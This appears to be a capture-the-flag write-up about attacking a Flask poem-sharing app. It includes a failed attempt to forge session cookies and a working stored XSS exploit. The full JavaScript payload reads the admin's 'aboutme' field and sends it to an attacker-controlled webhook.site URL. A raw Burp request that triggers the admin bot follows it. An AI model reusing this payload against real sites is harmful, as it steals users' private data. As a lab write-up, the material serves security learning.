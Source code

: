 https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/flask
- Regarding the provided source code we know, that the admin uses the flag as aboutme description. Keeping this in mind, we need to find a way to authenticate as admin to see the aboutme field or to leak the aboutme data of the admin in another way.
![[Pasted image 20231231010727.png]]
![[Pasted image 20231231010741.png]]

## Using flask-unsign to break the session-cookie and create a new one for admin
- Because we have to deal with a flask application, it can be probably possible to generate own session cookies, for arbitrary users if the secret key of the flask application is not secure. To do so we just need to send any request after the login to get a flask session cookie.
![[Screenshot from 2023-12-31 00-47-47.png]]
- Using the flask-unsign tool we can already see the structure of our flask cookie and which values are contained in it.
![[Pasted image 20231231011226.png]]
-> Secret key is 16 random bytes, so no bruteforce is possible at all. Even if this looks vulnerable at first glance, breaking the cookie generation is impossible.


# XSS (Cross Site Scripting) vulnerability
- Looking at the source code another time, we can see that the poem is rendered using the default render_template method. So our inserted poem behaves like a normal html page. Thus we can inject a html function with inline JavaScript.
![[Pasted image 20231231113812.png]]
#### Testing XSS vulnerability
- To test if the JavaScript is really allowed we just take a random html document with JavaScript inline and post it as a poem.

![[Pasted image 20231231113739.png]]

- Looking at the rendered page, we get the alert box and this ensures, that the JavaScript code is run without any restrictions.
![[Pasted image 20231231114204.png]]
- Now we do have the XSS vulnerability, but it doesn't really help us to authenticate as an admin to see the aboutme field of the admin user account.




# Inserting script into XSS vulnerability
- In this case we just assume, that there will be any option later on to force the admin to our poem site and then steal the flag and we will analyze how this can be done afterwards.
- Inserting this html code into the poem of our user, will end-up redirecting everybody, who tries to see our poem to an webhook-site, which is controlled by us. The webhook side is just used as an controlled website of us in this case, but could also be any self-owned server, which allows us to read the request, which is send after redirection.
- In our JavaScript-Code it is really important that we use the getElementByID() function to read the aboutme value of the requesting user and then send it to our webhook, for example in our case as a url parameter.

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Redirect Example</title>
</head>
<body onload="redirectToWebsite()">

    <script>
        function redirectToWebsite() {
            var aboutMeValue = document.getElementById('aboutme').value;
            var redirectUrl = 'https://webhook.site/8a6b57f8-0cb5-42a6-b13d-c8af2e254e42';  
            var finalUrl = redirectUrl + '?flag=' + encodeURIComponent(aboutMeValue);
            
            window.location.href = finalUrl;
        }
    </script>

</body>
</html>

    </body>
</html>
```


# Sending POST request to visit to start worker thread
- After successfully setting up the redirection and the stealing of the aboutme field with the stored html script in our poem property. We need to find a way how to force the admin to visit our side.
- Now coming back to the source code analysis again, we take a look at the visit function at the that exactly this it done. A POST request to /visit end up enqueueing a method called visit_user_page to a worker class. Taking a look at the method visit_url_page, we see that a webdriver is used, which operates under the admin account. 
![[Pasted image 20240108225403.png]]
![[Pasted image 20240108225424.png]]
- So basically everything what, we need to do now after injecting the html, containing our javascript code is calling the visit function.

## Sending POST request to /visit using Burpsuite
- Because it is not possible to call the visit function anymore from our website if we have inserted the script, because it always redirects us to the webhook, we saved one POST request to /visit before, which can be resend now. If this wasn't done, we could still create our own POST request.
```
POST /visit/ HTTP/2
Host: 7301cb0f1403-webth-vulnerable.numa.host
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 104
Origin: https://7301cb0f1403-webth-vulnerable.numa.host
Alt-Used: 7301cb0f1403-webth-vulnerable.numa.host
Referer: https://7301cb0f1403-webth-vulnerable.numa.host/poem/
Cookie: session=.eJwtjkFqAzEMRa8SvA7FtizZnjP0BiUMtiwloUMC9syihNy9hnb19R-I_15m1a2MmwyzfL3MaZ9hxsEsY5iz-Xxer9JO98fpn-mxbT8f5vK-nOdnl3Ezy94Pme3ezGIc2lxs8aV5UF8qqZNsMWIKKXtNgMWCFu9CjNIwKaCfYRkqoDKICxmsUgYKuUbr0EUJgVOrXEtKCTxTcs1bFuYYgFAat0x53i7G6bweQ_qfzTi6SscJeXRd9-e3PCbmgDQ9AnmybJEiUilQI9GcDzWh88KuNPP-Bc_8U9U.ZZNpnw.WB3jGKNSDpbIpaB7IUMMa8yLJ7A
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

csrf_token=ImM0NTY1YTA0NjI2MGMwNTY3NTZhYTNiNzY2ZTE0NGI4NTEyZWMxYWQi.ZZNpag.yQSFMHTIP4N_Qr9KfivR4oa_zJw
```

- So finally we use Burpsuite to add our poem to the queue, of poems, which should be reviewed. By that we achieve, that the admin is calling our page and so we can steal his aboutme value and redirect it to the webhook, which is done as revealed before in our JavaScript Code.

![[Screenshot from 2024-01-02 02-42-16.png]]
# Checking the webhawk 
- After sending this POST request to /visit we can know check our webhook and see that there was an incoming request, where our provided paramater contains the aboutme value of the admin, which means we finally obtained the flag.

![[Screenshot from 2024-01-02 02-42-36.png]]

